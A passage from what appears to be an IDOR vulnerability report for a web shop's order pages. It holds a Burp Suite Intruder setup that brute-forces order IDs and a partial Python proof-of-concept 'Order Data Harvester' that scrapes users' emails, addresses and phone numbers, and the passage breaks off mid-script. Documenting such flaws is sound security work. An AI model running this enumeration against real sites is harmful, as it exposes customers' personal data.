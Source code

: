 ```python
```

### 3. Burp Suite Intruder Attack

**Payload Configuration**:
```
GET /order/ORD-§XXXXX§-§YYYYY§/ HTTP/1.1
Host: localhost:8000
Cookie: sessionid=your-session-id

Payload 1: AAAAA-ZZZZZ (alphanumeric, 5 chars)
Payload 2: AAAAA-ZZZZZ (alphanumeric, 5 chars)
```

## Proof of Concept

### PoC Script - Order Data Harvester
```python
#!/usr/bin/env python3
"""
IDOR Exploitation PoC - Order Information Harvesting
"""

import requests
import re
from bs4 import BeautifulSoup

class IDORExploit:
    def __init__(self, base_url, session_cookie):
        self.base_url = base_url
        self.session = requests.Session()
        self.session.cookies.set('sessionid', session_cookie)
        
    def extract_order_info(self, order_id):
        """Extract sensitive information from order page"""
        response = self.session.get(f"{self.base_url}/order/{order_id}/")
        
        if response.status_code != 200:
            return None
            
        soup = BeautifulSoup(response.text, 'html.parser')
        
        # Extract user information
        user_info = {}
        username_elem = soup.find(text=re.compile('Username:'))
        if username_elem:
            user_info['username'] = username_elem.find_next().text.strip()
            
        email_elem = soup.find(text=re.compile('Email:'))
        if email_elem:
            user_info['email'] = email_elem.find_next().text.strip()
            
        # Extract shipping address
        address_info = {}
        for field in ['Name:', 'Address:', 'City:', 'Phone:']:
            elem = soup.find(text=re.compile(field))
            if elem:
                address_info[field.lower().strip(':')] = elem.find_next().text.strip()
                
        # Extract order total
        total_elem = soup.find(text=re.compile('Total Amount:'))
        total = total_elem.find_next().text.strip() if total_elem else 'Unknown'
        
```